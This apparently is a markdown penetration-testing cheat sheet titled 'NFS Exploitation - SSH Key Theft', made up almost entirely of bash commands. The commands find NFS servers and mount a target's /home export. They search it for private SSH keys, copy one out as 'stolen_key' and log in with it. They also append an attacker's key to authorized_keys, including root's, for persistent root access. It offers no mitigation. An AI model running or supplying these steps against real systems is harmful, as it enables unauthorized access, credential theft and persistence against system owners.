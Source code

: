 # NFS Exploitation - SSH Key Theft

## Detection
```bash
# Find NFS servers
nmap -p111,2049 --open 10.10.10.0/24

# Check exports
showmount -e TARGET
```

## SSH Key Theft

```bash
# 1. Mount exported share
sudo mkdir /mnt/nfs_target
sudo mount -t nfs TARGET:/home /mnt/nfs_target -o nolock

# 2. Search for SSH keys
find /mnt/nfs_target -name "id_rsa" -o -name "id_ed25519" 2>/dev/null
find /mnt/nfs_target -name "authorized_keys" 2>/dev/null

# 3. Copy SSH key
cp /mnt/nfs_target/username/.ssh/id_rsa ./stolen_key
chmod 600 stolen_key

# 4. SSH with stolen key
ssh -i stolen_key username@TARGET
```

## SSH Key Injection (If no_root_squash)

```bash
# 1. Generate your key
ssh-keygen -f attack_key -N ""

# 2. Add to authorized_keys
sudo bash -c 'cat attack_key.pub >> /mnt/nfs_target/username/.ssh/authorized_keys'

# 3. If /root exported:
sudo bash -c 'cat attack_key.pub >> /mnt/nfs_target/../.ssh/authorized_keys'

# 4. SSH in
ssh -i attack_key root@TARGET
```
